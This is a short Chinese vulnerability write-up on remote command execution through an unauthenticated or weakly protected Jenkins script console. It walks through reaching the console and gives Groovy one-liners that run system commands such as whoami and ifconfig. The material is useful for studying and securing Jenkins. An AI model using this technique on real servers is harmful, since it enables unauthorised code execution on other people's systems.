 Jenkins功能未授权访问导致的远程命令执行漏洞
===========================================

一、漏洞简介
------------

Jenkins管理登陆之后，后台"系统管理"功能，有个"脚本命令行的"功能，它的作用是执行用于管理或故障探测或诊断的任意脚本命令，利用该功能，可以执行系统命令，该功能实际上Jenkins正常的功能，由于很多管理账号使用了弱口令，或者管理后台存在未授权访问，导致该功能会对Jenkins系统服务器产生比较严重的影响和危害。

二、漏洞影响
------------

三、复现过程
------------

找到"系统管理"------"脚本命令行"。

![](/Users/aresx/Documents/VulWiki/.resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId24.png)

![](/Users/aresx/Documents/VulWiki/.resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId25.png)

输入任意的Groovy脚本并在服务器上执行它。对于故障排除和诊断很有用。使用'println'命令查看输出（如果使用System.out，它将输出到服务器的标准输出，很难看到。）示例：

    println(Jenkins.instance.pluginManager.plugins)

在脚本命令行中输入下面的语句，即可执行相应的命令：

    println "whoami".execute().text

![](/Users/aresx/Documents/VulWiki/.resource/Jenkins功能未授权访问导致的远程命令执行漏洞/media/rId26.png)

    println "ifconfig".execute().text

image
